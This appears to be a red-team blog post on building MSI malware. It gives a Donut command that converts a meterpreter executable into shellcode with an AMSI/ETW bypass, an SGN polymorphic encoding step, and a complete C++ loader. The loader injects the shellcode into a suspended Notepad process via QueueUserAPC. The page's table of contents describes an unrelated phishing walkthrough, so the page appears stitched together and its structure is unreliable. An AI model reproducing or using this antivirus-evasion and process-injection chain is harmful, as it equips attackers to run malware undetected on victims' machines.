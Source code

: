 ## Table of Contents

- [**Outline**](#section-0)
- [**Domain and Server Setup**](#section-1)
- [**Cloning and Setting Up NoPhish**](#section-2)
- [**DNS and HTTPS Configuration**](#section-3)
- [**Launching the Phishing Attack**](#section-4)
- [**Accessing the Admin Panel**](#section-5)
- [**Conclusion**](#section-6)




## Outline  {#section-0}



video width="640" height="480" controls>
  <source src="/assets/AV/MSI_Final.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

## Creating MSI Malware {#section-0}

## Executable to Shell Code
We will convert meterpreter EXE to shellcode using donut.


https://github.com/TheWover/donut

This Donut command loads piggy.exe into memory with:
1) no entropy obfuscation (-e)
2) uses AMSI/WLDP/ETW bypass with a fail-safe option to continue if bypass fails (-b)
3) compresses the file using the aPLib engine (-z 2), and employs a decoy module at 
level 5 (-j 5) for added obfuscation and evasion.

```bash
./donut -i /home/kali/donut/piggy.exe -e 1 -b 3 -z -j 5
```

## Polymorphic Shellcode Encoding (Shiginakatai)


```bash
sgn -i '/home/kali/donut/loader.bin' -o /home/kali/donut/loaderEncrypted.bin -a 64 -c 8 --verbose
```
The advantage of SGN is that during run time it will un-encode itself thereby the testers do not have to implement the un-encoding function. Testers need to simply load the obfuscated payload bin to their code.
## Creating APC Shellcode Loader
Creating a Shellcode Loader

Now that we have our encoded shellcode, we need to create a PE, exe file to launch this shellcode using c++.
VirtualAlloc: Allocates memory for the payload, typically using MEM_COMMIT and PAGE_READWRITE to allow writing to the allocated memory.
RtlMoveMemory: Copies the payload (malicious code) from the file or buffer into the newly allocated memory region.
VirtualProtect: Changes the protection of the allocated memory from PAGE_READWRITE to PAGE_EXECUTE_READ to allow the payload to execute.
CreateThread: Starts a new thread, executing the payload in memory. This is the method used to run the injected code.
WaitForSingleObject: Pauses the current thread until the thread running the payload finishes execution, ensuring the payload completes.
QueueUserAPC: This function queues an Asynchronous Procedure Call (APC) to a specific thread. If used with a thread in an alertable state (such as one created with SleepEx or WaitForSingleObjectEx), the payload will be executed when the thread enters that state. This technique is commonly used to inject code into a thread in a less obvious manner, bypassing some common defenses.

```bash
#include <windows.h>
#include <windows.h>
#include <stdio.h>

// Function to read a binary file
unsigned char* readBinaryFile(const char* fileName, SIZE_T* size) {
    FILE* file = fopen(fileName, "rb");
    if (!file) {
        printf("Could not open file %s\n", fileName);
        return NULL;
    }

    fseek(file, 0, SEEK_END);
    *size = ftell(file);
    fseek(file, 0, SEEK_SET);

    unsigned char* buffer = (unsigned char*)malloc(*size);
    if (!buffer) {
        printf("Memory allocation failed\n");
        fclose(file);
        return NULL;
    }

    fread(buffer, 1, *size, file);
    fclose(file);
    return buffer;
}

int main() {
    // Read shellcode from the binary file (e.g., loaderEncrypted.bin)
    const char* fileName = "loaderEncrypted.bin";
    SIZE_T shellcodeSize;
    unsigned char* shellcode = readBinaryFile(fileName, &shellcodeSize);
    
    if (!shellcode) {
        printf("Failed to read the binary file.\n");
        return -1;
    }

    // Create a suspended Notepad process
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf("Failed to create process\n");
        free(shellcode);
        return -1;
    }

    // Allocate memory in the target process
    LPVOID bufferAddr = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!bufferAddr) {
        printf("VirtualAllocEx failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Write the shellcode into the allocated memory
    if (!WriteProcessMemory(pi.hProcess, bufferAddr, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Queue the APC for the shellcode to be executed
    QueueUserAPC((PAPCFUNC)bufferAddr, pi.hThread, NULL);

    // Resume the suspended thread to execute the shellcode
    ResumeThread(pi.hThread);

    // Cleanup
    free(shellcode);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}

```


 